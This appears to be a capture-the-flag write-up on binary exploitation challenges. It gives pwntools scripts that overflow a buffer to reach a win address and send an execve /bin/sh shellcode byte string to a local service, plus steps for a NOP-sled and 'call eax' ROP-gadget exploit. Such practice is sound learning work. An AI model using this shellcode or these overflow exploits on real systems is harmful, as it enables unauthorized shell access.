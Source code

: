 ```python
c = remote(host, port)

payload = "a"*return_offset + p32(win_address)

print("Sending payload: %s" % (payload))

c.sendline(payload)

c.interactive()
```
---
## **2. buffer-3 - runner**
_General overview of problems faced:_   
Have to use shellcode, I have learnt it from _"Hacking - The Art of Exploitation"_ before so here I just using a borrowed shellcode

_List of vulnerabilities:_    
1. Not really a vulnerability, it is just calling to the user's input

_Steps to exploit:_   
1. Enter a shellcode to prompt a shell

_Script/Command used:_    
```python
#!/usr/bin/python

from pwn import *

host = "127.0.0.1"
port = 5003

c = remote(host, port)

#from http://shell-storm.org/shellcode/files/shellcode-752.php
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

c.sendline(shellcode)

c.interactive()
```
---
## **3. buffer-4 - shellz**
_General overview of problems faced:_   
Have to guess the address to return to the shellcode which can be done with NOP sled or ROP gadgets

_List of vulnerabilities:_    
1. The input from user can overflow the buffer and overwrite the return address of the main function

_Steps to exploit:_ 
1. Use a cyclic pattern to find the offset to the return address
2. From the binary I found that the address of the overflowing buffer is stored in eax and remained unchanged until the end of the program so I can use a ROP gadget to _"call eax"_ and execute my shellcode
3. Use ropper to find a gadget for _"call eax"_
4. Enter a payload with offset NOPs and the shellcode in the middle, then append the gadget (0x08048406)
